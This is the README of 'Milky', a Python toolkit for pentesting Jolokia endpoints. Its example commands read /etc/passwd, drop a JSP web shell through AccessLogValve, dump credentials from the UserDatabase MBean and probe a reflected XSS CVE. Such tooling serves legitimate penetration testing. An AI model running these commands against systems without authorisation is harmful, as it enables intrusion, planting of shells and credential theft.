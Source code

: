 # Milky

<img align="center" src="./img/milky.png">

Milky is a lightweight, one‑file toolkit that helps pentesters quickly verify
and exploit common Jolokia misconfigurations / weaknesses (File‑read,
AccessLogValve RCE, UserDatabase dump, Spring `EnvironmentManager` abuse,
reflected XSS CVE‑2018‑1000129).

> Milk soothes the spice, Milky calms down the Jolokia heat. 

## Installation

```bash
git clone https://github.com/unclej4ck/milky.git
cd milky
python3 -m venv venv && . venv/bin/activate
pip install -r requirements.txt
```

## Quick examples

### Verification of Jolokia misconfiguration
```
python3 milky.py http://target:8080/jolokia scan
```
### Read /etc/passwd through DiagnosticCommand
```
python3 milky.py http://target:8080/jolokia read -f /etc/passwd
```

### Drop & verify a JSP shell via AccessLogValve
```
python3 milky.py http://target:8080/jolokia deploy
```

### Dump credentials from the UserDatabase MBean
```
python3 milky.py http://target:8080/jolokia creds
```
### Reflected‑XSS probe (CVE‑2018‑1000129)
```
python3 milky.py http://target:8080/jolokia xss
```

> Add --debug for full HTTP traces and --user/--password for Basic‑Auth.


## TO-DO
- [ ] Adding more exploits
- [ ] Adding more verifications
- [ ] Fixing bugs

## Credits

Thanks to laluka for his work on [jolokia-exploit](https://github.com/laluka/jolokia-exploitation-toolkit).